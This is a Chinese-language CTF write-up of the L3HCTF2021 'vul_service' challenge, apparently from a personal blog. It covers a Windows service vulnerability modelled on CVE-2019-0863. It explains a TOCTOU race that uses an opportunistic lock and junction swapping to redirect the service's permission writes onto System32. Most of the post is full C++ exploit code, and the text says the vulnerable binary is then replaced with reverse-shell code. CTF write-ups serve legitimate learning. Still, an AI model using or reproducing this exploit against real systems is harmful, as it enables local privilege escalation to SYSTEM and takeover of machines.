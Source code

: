 ```yaml
---
title: L3HCTF2021
date: 2021-11-16 17:59:18
draft: false
tags: ["pwn", "windows"]
categories: ["pwn"]
---
```


# L3HCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：
![win](./L3HCTF2021/1.png)
此时替换为反弹shell的恶意代码即可。